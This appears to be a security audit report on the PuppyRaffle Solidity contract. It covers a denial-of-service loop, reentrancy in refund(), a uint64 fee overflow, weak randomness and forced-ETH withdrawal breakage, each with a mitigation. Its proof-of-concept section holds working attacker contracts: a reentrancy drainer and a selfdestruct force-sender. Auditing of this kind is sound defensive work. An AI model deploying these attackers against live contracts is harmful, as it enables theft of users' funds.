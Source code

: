 ### [H-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle()` is a potential DoS attack, incrementing gas costs for future entrants

**Description:** The `PuppyRaffle::enterRaffle()` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more gas costs for future entrants. Every additional address in the `players` array is an additional check the loop have to make.
```javascript
 @>     for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact:** The gas costs for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users  from entering, and causing a rush at the start of a raffle to be one of the first to enter.

An attacker might make the `PuppyRaffle::players` array so big, that no one else enters, guarenteeing themselves the win.

**Proof of Concept:**

if we have 2 sets of 100 players enter, the gas costs will be as such: 
- 1st 100 players: ~6252037 gas
- 2nd 100 players: ~20376508 gas

<details> 
<summary>PoC</summary>
Place the folowing test into `PuppyRaffleTest.t.sol`

```javascript
 function test_denialOfService() public {
        vm.txGasPrice(1);
        address USER = makeAddr("user");
        vm.deal(USER, 1000000 ether);
        uint256 numPlayers = 200;
        address[] memory newPlayers = new address[](numPlayers);

        for (uint256 i = 0; i < numPlayers; i++) {
            newPlayers[i] = address(i);
        }

        uint256 gasStart = gasleft();

        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(newPlayers);

        uint256 gasEnd = gasleft();
        uint256 gasUsed = gasStart - gasEnd;
        console.log(gasUsed);

    }

```
</details>

**Likelihood:** High,

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a wallet has already entered.

```diff
+ uint256 public raffleID;
+ mapping (address => uint256) public usersToRaffleId;
.
.
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");

        for (uint256 i = 0; i < newPlayers.length; i++) {
+           // Check for duplicates
+           require(usersToRaffleId[newPlayers[i]] != raffleID, "PuppyRaffle: Already a participant");

            players.push(newPlayers[i]);
+           usersToRaffleId[newPlayers[i]] = raffleID;
        }

-       // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }

        emit RaffleEnter(newPlayers);
    }
.
.
.

function selectWinner() external {
        //Existing code
+    raffleID = raffleID + 1;        
    }

```


### [H-2] Reentrancy in `PuppyRaffle::refund()`. Attacker can drain all the funds from the contract. 


**Description:** The `PuppyRaffle::refund()` function doesn't follow CEI (Checks, Effects, Interactions) pattern. A malicious actor can exploit this by creating a contract with a fallback/receive function that calls `refund()` again when receiving ETH, allowing them to repeatedly withdraw funds before their player status is removed. This can continue until the contract's balance is drained.

```javascript

    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");

        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    
  @>    payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

**Impact:** An attacker can drain all ETH from the contract, stealing funds from other participants and making the raffle system inoperable.


**Proof of Concept:**

<details> 
<summary>PoC</summary>
Place the folowing test into `PuppyRaffleTest.t.sol`

```javascript

//SPDX-License-Identifier: MIT;

pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";


contract ReentrancyAttacker {
    PuppyRaffle target;
    uint256 playerIndex;

    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }
    
    function attack() public {
        address[] memory players = new address[](1);
        players[0] = address(this);
        target.enterRaffle{value: target.entranceFee()}(players);
        playerIndex = target.getActivePlayerIndex(address(this));
        target.refund(playerIndex);
    }

    receive() external payable {
        if (address(target).balance >= 1 ether) {
            target.refund(playerIndex);
        }
    }
}

```
</details>


**Recommended Mitigation:** Update the `refund()` function to follow the CEI pattern by moving the state changes before the external call:

```diff

    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");

        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
    
        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

```

In that case we first remove the player from the `players` array, then we send the ETH to the player, it will protect the contract from reentrancy.


### [H-3] Integer overflow vulnerability in `PuppyRaffle::totalFees` allows fees to be reset

**Description:** In Solidity versions prior to 0.8.0, arithmetic operations can overflow/underflow without reverting. The `PuppyRaffle` contract uses Solidity 0.7.6 and declares `totalFees` as a `uint64`, which can only store values up to 2^64 - 1 (18,446,744,073,709,551,615). 

When `totalFees` exceeds this maximum value, it will overflow and reset to 0, causing loss of fee accounting and allowing attackers to potentially steal fees that should be reserved for the contract owner.

```javascript
contract PuppyRaffle {
    uint64 public totalFees = 0;
    ...
}
```

**Impact:** The contract owner could lose fee revenue when `totalFees` overflows if totalfees greater than 18,446,744,073,709,551,615.(~18.5 ethers)

**Proof of Concept:**
1. `totalFees` starts at 0
2. After many raffle entries, `totalFees` approaches the uint64 maximum (2^64 - 1)
3. One more raffle entry causes `totalFees` to overflow back to 0
4. All accumulated fees are effectively lost from an accounting perspective

```javascript
    uint64 totalFees = 18446744073709551615;
    totalFees = totalFees + 1;
    console.log(totalFees);
    // result is 0
``` 

**Recommended Mitigation:** Change `totalFees` to use `uint256` instead of `uint64` to prevent overflow:

```diff
contract PuppyRaffle {
-    uint64 public totalFees = 0;
+    uint256 public totalFees = 0;
}
```

Alternatively, upgrade to Solidity 0.8.0 or later which includes built-in overflow protection.


### [H-4] `PuppyRaffle::selectWinner()` weakly randomizes the winner selection

**Description:** The use of keccak256 hash functions on predictable values like block.timestamp, block.number, or similar data, including modulo operations on these values, should be avoided for generating randomness, as they are easily predictable and manipulable. The PREVRANDAO opcode also should not be used as a source of randomness. Instead, utilize Chainlink VRF for cryptographically secure and provably random values to ensure protocol integrity.

**Impact:** Weak randomization can lead to predictable winner selection, potentially allowing an attacker to manipulate the outcome of the raffle.


### [H-5] WithdrawFees can be broken if someone sends some eth to the contract

**Description:** The `PuppyRaffle::withdrawFees()` function checks if the contract balance is equal to `totalFees`. If someone sends some eth to the contract, it will break the withdrawFees function.

**Impact:** The owner can't withdraw the fees.

**Proof of Concept:**

<details> 
<summary>PoC</summary>
Here is the attacker contract that will send some eth to the puppyRaffle contract while selfdestructing.

```javascript
//SPDX-License-Identifier: MIT;

pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";


contract WithdrawFeesAttacker {
    PuppyRaffle target;


    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }

    function attack() public {
        selfdestruct(payable(address(target)));
    }
}

```
</details>


**Recommended Mitigation:** change the logic of withdrawFees and maybe just withraw all the balance? Why to check if it's equal to totalFees?



### [L-1] `PuppyRaffle::withdrawFees()` it's impossible to withdraw the fees while there are players in the raffle

**Description:** The `PuppyRaffle::withdrawFees()` function checks if there are any players in the raffle, and if there are, it prevents the owner from withdrawing the fees.

**Impact:** The owner can't withdraw the fees if there are players in the raffle.

**Proof of Concept:**

```javascript
    function withdrawFees() external {
 @>     require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }

``` 

**Recommended Mitigation:** change the logic of withdrawFees let it withdraw while there are players in the raffle.


```diff
    function withdrawFees() external {
-       require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }

``` 
